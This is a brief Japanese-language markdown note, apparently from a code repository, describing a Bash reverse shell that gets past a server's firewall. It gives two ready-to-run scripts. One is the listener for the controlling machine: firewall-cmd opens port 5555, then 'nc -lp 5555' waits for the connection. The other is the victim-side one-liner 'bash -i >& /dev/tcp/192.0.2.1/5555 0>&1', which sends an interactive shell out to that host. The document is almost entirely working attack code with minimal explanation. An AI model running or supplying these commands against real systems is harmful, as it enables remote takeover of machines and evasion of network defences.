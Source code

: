# リバースシェル

## 概要

Bashのtcpソケット機能(仮想ファイル)を使用することで、サーバ側のfirewallに影響されずに、サーバ側から攻撃側にアクセスすることで操作を乗っ取れる

## 操作する側(192.0.2.1)

```bash
#!/bin/bash

firewall-cmd --add-port=5555/tcp
nc -lp 5555
```

## 操作される側

```bash
#!/bin/bash

bash -i >& /dev/tcp/192.0.2.1/5555 0>&1
```
